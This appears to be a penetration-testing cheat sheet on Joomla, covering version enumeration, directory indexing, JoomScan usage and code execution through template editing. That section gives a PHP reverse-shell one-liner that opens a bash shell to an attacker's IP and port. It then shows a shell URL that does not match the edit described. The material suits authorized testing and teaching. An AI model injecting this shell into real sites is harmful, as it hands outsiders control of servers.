 ## Version Enumeration

- **Via `joomla.xml` file:**  
Check this file to get the Joomla version and list of core files:
```bash
/administrator/manifests/files/joomla.xml
```

- **Via other XML files:**  
Some plugin manifests like:
```bash
/plugins/system/cache/cache.xml
```

- **Meta Generator tag:**  
Check page source for:
```html
<meta name="generator" content="Joomla! - Open Source Content Management" />
```


## Remote Code Execution via Template Editing

If you have administrator access, or can exploit weak ACL (Access Control List) configurations, you can inject PHP code into template files.

Example: modify a template file `index.php` to include a reverse shell:
1. Navigate to Joomla administrator panel.
2. Go to Templates → Templates → Edit your active template.
3. Edit `index.php`, `error.php` or add a new file with the following PHP reverse shell code:
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<own_ip>/<port> 0>&1'"); ?>
```
![](../../Images/joomla_template_preview.png)
Uploaded shell access:
```bash
http://target.com/images/uploads/shell.php?cmd=id
```


## Directory Indexing Vulnerabilities
Misconfigured web servers may allow directory listing on web-accessible folders.

#### Impact

- Exposure of sensitive files such as backups, configuration files (`configuration.php`), plugins, and template files.
- Information leakage without requiring brute forcing or direct exploitation.

#### Testing Directory Indexing

- Manually browse to common Joomla folders and observe HTTP responses.
- Look for HTTP 200 OK responses displaying directory contents.

Example directories to test:

```bash
/administrator/manifests/files/
/templates/
/images/
/plugins/
```


## JoomScan

**JoomScan** is a popular open-source tool for scanning Joomla websites for vulnerabilities.

```bash
joomscan -u <target>
```

#### Common Options

- `-u` : Specify target URL
- `-v` : Enable verbose mode (more detailed output)
- `-p` : Scan specific plugins
- `--update` : Update vulnerability database
- `--list-plugins` : List all available plugins to scan